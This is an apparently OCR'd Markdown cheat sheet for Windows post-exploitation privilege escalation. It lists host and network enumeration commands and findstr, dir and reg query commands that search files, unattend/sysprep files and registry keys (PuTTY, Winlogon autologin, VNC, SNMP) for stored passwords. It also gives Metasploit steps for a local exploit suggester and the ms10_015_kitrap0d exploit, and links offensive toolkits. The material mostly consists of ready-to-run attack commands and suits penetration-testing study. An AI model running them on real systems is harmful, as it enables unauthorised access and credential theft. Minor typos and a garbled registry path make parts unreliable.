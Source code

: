 #### Information Gathering
- systeminfo ***OS info***
- hostname ***host info***
- net users ***users info***
- net user <user_name>
- ipconfig /all ***network interfaces and routing table.***
- route print
- arp -A
- netstat -ano ***network connections and the firewall rules***
- netsh firewall show state
- netsh firewall show state
- netsh firewall show config
- schtasks /query /fo LIST /v ***scheduled tasks, running processes, started services and installed drivers.***
- tasklist /SVC
- net start

#### Search for password
- findstr /si password *.txt
- findstr /si password *.xml
- findstr /si password *.ini
- dir /s *pass* == *cred* == *vnc* == *.config*
- findstr /spin "password" *.*
***password in files***
- c:\sysprep.inf
- c:\sysprep\sysprep.xml
- c:\unattend.xml
- %WINDIR%\Panther\Unattend\Unattended.xml
- %WINDIR%\Panther\Unattended.xml
- dir c:\*vnc.ini /s /b
- dir c:\*ultravnc.ini /s /b 
- dir c:\ /s /b | findstr /si *vnc.ini
***Find all those strings in confing files***
dir /s *pass* == *cred* == *vnc* == *.config*
***In Registry***
- ***Putty*** : reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
- ***SNMP Paramters*** : reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
- ***Windows autologin*** : reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
- ***VNC*** : reg query "HKCU\Software\ORL\WinVNC3\Password"
- ***Search for password in registry*** : reg query HKLM /f password /t REG_SZ /s ***OR*** reg query HKCU /f password /t REG_SZ /s

#### Service available form inside
- netstat -ano

#### With meterpreter
- use post/multi/recon/local_exploit_suggester
- set session ?
- run

- example: use exploit/windows/local/ms10_015_kitrap0d
- options
- run

#### Usefull scrips

- ***Windows Exploit Suggester*** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- ***JustAnotherWindowsScript(Enum)*** https://github.com/411Hall/JAWS
- ***Impacket*** https://github.com/SecureAuthCorp/impacket
- ***Nishang*** https://github.com/samratashok/nishang
